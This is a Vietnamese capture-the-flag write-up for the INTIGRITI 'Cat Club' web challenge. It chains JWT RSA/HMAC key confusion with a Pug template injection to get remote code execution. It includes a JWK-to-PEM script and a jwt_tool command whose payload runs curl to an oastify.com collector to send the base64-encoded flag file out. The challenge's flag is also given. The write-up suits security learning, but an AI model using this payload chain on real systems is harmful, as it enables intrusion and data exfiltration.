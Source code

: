 ```yaml
---
title: Cat Club

---
```


![image](../img/14.png)

tiếp theo là 1 bài ctf web của INTIGRITI

mình dùng thử thì chỉ có chức năng register và login thôi nhé, check `XSS` ở register thì nó bị regex. Chall cho source nên view source nhá


![image](../img/15.png)

nhìn vào cấu trúc thư mục thấy có xuất hiện priv, pub key là theo bản năng mình nhận ra nó có thể dính `confusion key`

![image](../img/16.png)
view tiếp `router.js` mình thấy có endpoint này lòng lại vui như mở hội ngay =)), truy cập vào là có thể lấy được public_key

![image](../img/17.png)

tuy nhiên để có thể sử dụng được chúng ta cần chuyển nó qua định dạng `.pem`

mình có code script để convert nó

```
import base64
from cryptography.hazmat.primitives.asymmetric import rsa
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives.asymmetric.rsa import RSAPublicNumbers


jwk = {
    "kty": "RSA",
    "n": "w4oPEx-448XQWH_OtSWN8L0NUDU-rv1jMiL0s4clcuyVYvgpSV7FsvAG65EnEhXaYpYeMf1GMmUxBcyQOpathL1zf3_Jk5IsbhEmuUZ28Ccd8l2gOcURVFA3j4qMt34OlPqzf9nXBvljntTuZcQzYcGEtM7Sd9sSmg8uVx8f1WOmUFCaqtC26HdjBMnNfhnLKY9iPxFPGcE8qa8SsrnRfT5HJjSRu_JmGlYCrFSof5p_E0WPyCUbAV5rfgTm2CewF7vIP1neI5jwlcm22X2t8opUrLbrJYoWFeYZOY_Wr9vZb23xmmgo98OAc5icsvzqYODQLCxw4h9IxGEmMZ-Hdw",
    "e": "AQAB"
}


n = int.from_bytes(base64.urlsafe_b64decode(jwk["n"] + "=="), byteorder='big')
e = int.from_bytes(base64.urlsafe_b64decode(jwk["e"] + "=="), byteorder='big')


public_numbers = RSAPublicNumbers(e, n)
public_key = public_numbers.public_key()


pem = public_key.public_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PublicFormat.SubjectPublicKeyInfo
)

# Save to a .pem file
with open("public_key.pem", "wb") as pem_file:
    pem_file.write(pem)

print("Public RSA key saved to public_key.pem")


```

view thêm về source code để biết flag nằm ở đâu.
![image](../img/18.png)

có vẻ như cần RCE mới biết được flag dạng nào =)) 

![image](../img/19.png)

và BOOMM, chỗ này dính SSTI 100%, nó render `username` thay thế nào `/guest/` trong template `cats.pug`

=> Hướng exploit sẽ là:
1. Exploit confusion JWT to authen
2. Inject username into JWT to exploit SSTI 

giờ thì dùng `jwt_tool` để exploit nào

```
python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6ImFzZCJ9.WtNj-PzZesPRM7CZqAXXauI3TV6DcliuJbVzFOaqWajtLk96VzBjMTxap5hT9d09xraiu2CgCoX1dEg8ACpyPWfmOmxgLdwZvnL1qjjhv3ErwakYSJsn-Fe8WGeqDu4ZeSxjwR7xFjQXSBlvG9WytuWlpNBG6jM_6tY12euNs2oUW8VMV2HJM_GOEfwOMrb8lsV5JChgE3Eea9Uqa-DSpNkBvOlgWXo1gjgmlFP6TWDvxLA24O986jwFlBibxvVOOlsYhXuqiZUI-ynSxT8ZdivLYgOG58oxtvvbFuiXYc9fnSXC97eMnx_kXVE1RrYzQD_ZPC3o4CaqFK465_RK2g -X k -pk /home/kali/VSCODE/public_key.pem -I -pc username -pv "#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad(\"child_process\").exec('curl o2r497542gocxhc3v9h5g52zeqkh89wy.oastify.com?=\`cat /flag_tLmwRDxdWzoSCUWL.txt|base64\`')}()}"
```

![image](../img/20.png)

và boom!!!

![image](../img/21.png)

FLAG: `INTIGRITI{h3y_y0u_c4n7_ch41n_7h053_vuln5_l1k3_7h47}`







